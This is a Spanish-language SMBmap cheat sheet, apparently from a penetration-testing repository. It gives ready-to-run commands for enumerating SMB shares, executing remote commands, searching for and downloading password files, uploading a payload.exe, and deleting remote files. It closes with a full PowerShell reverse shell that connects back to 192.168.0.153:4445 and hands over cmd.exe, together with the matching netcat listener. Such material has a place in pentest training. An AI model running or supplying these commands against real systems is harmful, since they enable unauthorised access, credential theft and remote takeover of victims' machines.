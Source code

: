 # SMBmap Cheat Sheet

#### Enumerar en un Host
```
smbmap -H <IP-Address>
```

#### Enumerar un Host colocando un usuario null
```
smbmap -u 'null' -H <IP-Address>
```

#### Comprueba si hay recursos compartidos en el host especificado con el nombre de usuario y la contraseña proporcionados
```
smbmap -u <Username> -p <Password> -H <IP-Address>
```

#### Ejecución de comandos
```
smbmap -u <Username> -p <Password> -d <Domain> -x 'net group "Domain Admins" /domain' -H <IP-Address>
```

#### Listar un recurso no recursivo (ls)
```
smbmap -u <Username> -p <Password> -H <IP-Address> -r 'C$\Users'
```

#### Listar un recurso de manera recursiva
```
smbmap -u <Username> -p <Password> -H <IP-Address> -R 'C$\Users'
```

#### Listar un recurso de manera recursiva pero solo mostrando directorios
```
smbmap -u <Username> -p <Password> -H <IP-Address> -R 'C$\Users' --dir-only
```

#### Listado de unidades
```
smbmap -u <Username> -p <Password> -H <IP-Address> -L
```

#### Buscar algun contenido en archivos
```
smbmap -u <Username> -p <Password> -H <IP-Address> -F password --search-path 'C:\Users\wingus\AppData\Roaming'
```

#### Descargar un archivo
```
smbmap -u <Username> -p <Password> -H <IP-Address> --download 'C$\temp\passwords.txt'
```

#### Cargar un archivo
```
smbmap -u <Username> -p <Password> -H <IP-Address> --upload '/tmp/payload.exe C$\temp\payload.exe'
```

#### Eliminar un archivo remoto
```
smbmap -u <Username> -p <Password> -H <IP-Address> --delete 'C$\temp\msf.exe'
```

#### Generar una shell inversa
+ Para la victima
```
smbmap -u <Username> -p <Password> -d <Domain> -H <IP-Address> -x 'powershell -command "function ReverseShellClean {if ($c.Connected -eq $true) {$c.Close()}; if ($p.ExitCode -ne $null) {$p.Close()}; exit; };$a=""""192.168.0.153""""; $port=""""4445"""";$c=New-Object system.net.sockets.tcpclient;$c.connect($a,$port) ;$s=$c.GetStream();$nb=New-Object System.Byte[] $c.ReceiveBufferSize  ;$p=New-Object System.Diagnostics.Process  ;$p.StartInfo.FileName=""""cmd.exe""""  ;$p.StartInfo.RedirectStandardInput=1  ;$p.StartInfo.RedirectStandardOutput=1;$p.StartInfo.UseShellExecute=0  ;$p.Start()  ;$is=$p.StandardInput  ;$os=$p.StandardOutput  ;Start-Sleep 1  ;$e=new-object System.Text.AsciiEncoding  ;while($os.Peek() -ne -1){$out += $e.GetString($os.Read())} $s.Write($e.GetBytes($out),0,$out.Length)  ;$out=$null;$done=$false;while (-not $done) {if ($c.Connected -ne $true) {cleanup} $pos=0;$i=1; while (($i -gt 0) -and ($pos -lt $nb.Length)) { $read=$s.Read($nb,$pos,$nb.Length - $pos); $pos+=$read;if ($pos -and ($nb[0..$($pos-1)] -contains 10)) {break}}  if ($pos -gt 0){ $string=$e.GetString($nb,0,$pos); $is.write($string); start-sleep 1; if ($p.ExitCode -ne $null) {ReverseShellClean} else {  $out=$e.GetString($os.Read());while($os.Peek() -ne -1){ $out += $e.GetString($os.Read());if ($out -eq $string) {$out="""" """"}}  $s.Write($e.GetBytes($out),0,$out.length); $out=$null; $string=$null}} else {ReverseShellClean}};"'
```
+ En el atacante
```
nc -l 4445
```

---

[:arrow_left: Regresar](https://github.com/m4lal0/cheatsheets)